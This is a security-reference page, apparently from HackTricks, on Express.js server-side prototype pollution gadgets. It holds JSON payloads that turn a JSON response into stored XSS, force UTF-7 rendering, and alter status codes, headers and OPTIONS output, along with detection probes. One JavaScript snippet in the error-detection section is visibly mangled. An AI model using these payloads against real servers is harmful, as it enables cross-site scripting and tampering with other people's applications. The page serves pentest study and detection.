 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## Serve XSS responses

**For further details** [**take a look to the original reserach**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
  _.merge({}, req.body)
  res.send(req.body)
})
```

In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```

By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```

## Safe Scanning Techinques

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{ "__proto__": { "json spaces": " " } }
```

Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```

### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```

It requires the **CORS module to be installed**

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{ "__proto__": { "status": 510 } }
```

### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
;({}).__proto__.__proto__ = {}(
  //throws type exception
  {}
).__proto__.__proto__ = "x" //no-op does not throw exception
```

### Reflected Value

When an application includes an object in its response, creating an attribute with an **unusual name alongside `__proto__`** can be insightful. Specifically, if **only the unusual attribute is returned** in the response, this could indicate the application's vulnerability:

```json
{ "unusualName": "value", "__proto__": "test" }
```

Moreover, in scenarios where a library like Lodash is employed, setting a property both via prototype pollution (PP) and directly inside the object offers another diagnostic approach. If such a property is omitted from the response, it suggests that Lodash is verifying the existence of the property in the target object before merging:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```

## Misc

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{ "__proto__": { "allowDots": true } }
```

**`?foo.bar=baz` create an object in Node.**

## References

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}


